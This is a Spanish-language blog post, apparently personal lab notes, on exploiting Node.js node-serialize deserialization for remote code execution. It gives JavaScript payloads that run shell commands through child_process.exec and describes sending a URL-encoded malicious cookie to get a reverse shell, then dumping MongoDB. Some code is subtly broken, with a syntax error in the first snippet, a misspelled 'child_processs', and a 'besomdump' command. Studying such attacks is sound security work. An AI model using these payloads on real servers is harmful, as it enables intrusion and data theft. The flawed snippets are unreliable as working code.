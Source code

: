 ```yaml
---
title: "NodeJS Deserialization"
author: Tuch0
date: 2023-09-17
categories: [Vectores-de-Ataque]
tags: [nodjs, deserialization, MongoDB]
image:
	path: /assets/Miniaturas/VectoresDeAtaque/nodejs-deserialization.jpg
	width: 800
	height: 500
---
```




## Inyectar comando ANTES de que "serialize la data" con "IFFE"

> Recurso: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```js
var y = {
	rce : function(){
	require('child_process').exec('ls /'), function (error, stdout, stderr) { console.log(stdout) })
	}(),
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

> Esto ocurre gracias a los dos paréntesis , que hay despues de ejecutar el comando ya que antes de hacer la "deserialization" va a ejecutar el comando, esto es conocido como "IFFE" (inyection function)
{: .prompt-info }

## Unserialize

> De lado de un servidor que usa NodeJS , lo que hacen es deserializar la data , de esta menera vamos a a crear una data "serializada" maliciosa , de manera que cuado la "deserialize" ejecute el comando que nosotros queramos aprovechandonos de el "IFFE"
{: .prompt-info }

```js
var serialize = require('node-serialize')
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_processs\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload)
```
### Escenario

> En este caso , gracias a un XXE , hemos conseguido saber donde se situa el server.js , mirando su código nos hemos dado cuenta de que "deserializa" la data de la cookie , por lo tanto vamos a tratar de hacer una cookie serializada maliciosa para obtener una reverse shell
{: .prompt-info }

> Vamos a usar el payload de antes , y vamos a urlEncodearlo , para ponerlo en la cookie , cabe destacar que si da erro , le quitemos los saltos de linea
{: .prompt-info }

```js
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.27', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

## Otro

> Cabe destacar que antes gracias a el archivo "server.js" hemos sabido que por detrás corre mongo , por lo tanto una vez dentro de la máquina , podemos conectarnos usando el comando "mongo"
{: .prompt-info }

> Si no sabemos usar mongo basta con conectarnos con "mongo" y luego poner "mongo dump", esto creara un directorio con todos los archivos de mongo, si con cat , lo reporta un poco feo , puedes usar el comando besomdump
{: .prompt-info }




